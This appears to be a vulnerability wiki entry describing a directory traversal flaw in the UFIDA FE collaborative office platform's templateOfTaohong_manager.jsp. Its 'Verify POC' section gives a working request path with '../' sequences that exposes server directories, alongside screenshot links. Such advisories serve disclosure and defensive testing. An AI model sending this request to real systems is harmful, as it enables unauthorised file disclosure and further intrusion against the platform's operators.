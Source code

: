 # UFIDA FE collaborative office platform templateOfTaohong_manager.jsp directory traversal vulnerability

## Vulnerability Description

UFIDA FE Collaborative Office Platform templateOfTaohong_manager.jsp file has a directory traversal vulnerability. Through the vulnerability attacker can obtain information such as directory files, leading to further attacks.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA FE collaborative office platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646059676433-1560cc0a-f228-4969-862e-6c1bca531f9b.png)

Verify POC

```javascript
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646059728922-422586b0-6e56-4752-832e-4f386629fd2e.png)